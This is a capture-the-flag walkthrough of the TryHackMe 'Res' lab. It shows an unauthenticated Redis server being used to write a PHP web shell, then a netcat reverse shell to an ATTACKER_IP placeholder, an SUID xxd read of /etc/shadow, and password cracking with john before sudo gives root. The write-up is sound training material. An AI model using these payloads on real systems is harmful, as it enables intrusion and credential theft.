 ```yaml
---
title: "Res"
tags:
  - Easy
  - Linux
  - nmap
  - redis
  - xxd
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |    Easy    |  |   10.10.46.25 |  | [Res](https://tryhackme.com/room/res) |  |

### [ Scan the machine, how many ports are open? ]

As always, we start off with a `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

![screenshot1](../assets/images/res/screenshot1.png)

The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this [website](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) which teaches us how to obtain remote code execution via a Redis server:

![screenshot2](../assets/images/res/screenshot2.png)

We can connect to the Redis server using `redis-cli` (Installation: `sudo apt install redis-tools`):

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!

![screenshot5](../assets/images/res/screenshot5.png)

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**

![screenshot3](../assets/images/res/screenshot3.png)

From the webpage, we know that the web server is running on Apache. A common root directory of Apache servers is **/var/www/html**.

We then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:

![screenshot4](../assets/images/res/screenshot4.png)

Nice! It works :smile: 

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the **cmd** parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=nc ATTACKER_IP PORT -e /bin/bash`

![screenshot6](../assets/images/res/screenshot6.png)

And we're in!

Visiting the /home directory, we can see that there is one other account: **vianka**

The **user flag** can be found in vianka's home directory:

![screenshot7](../assets/images/res/screenshot7.png)

---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through vianka's files yielded nothing of interest. There was also nothing useful in directories like /opt and /tmp.

Next, I decided to search for **SUID-bit** set files:

```
find / -type f -perm /u=s 2>/dev/null
```

![screenshot8](../assets/images/res/screenshot8.png)

We have an interesting file: `xxd`

Looking on [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), we can find the following way to exploit this program:

![screenshot9](../assets/images/res/screenshot9.png)

It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```

![screenshot10](../assets/images/res/screenshot10.png)

And we have found vianka's hashed password (at the bottom).

We then use `john` to crack the password:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

![screenshot11](../assets/images/res/screenshot11.png)

vianka's password:

> beautiful1

---

### [ Escalate privileges and obtain root.txt ]

We can now log into vianka's account.

![screenshot12](../assets/images/res/screenshot12.png)

Let's check vianka's **sudo privileges**:

```
sudo -l
```

![screenshot13](../assets/images/res/screenshot13.png)

Turns out vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`:

```
sudo cat /root/root.txt
```

![screenshot14](../assets/images/res/screenshot14.png)

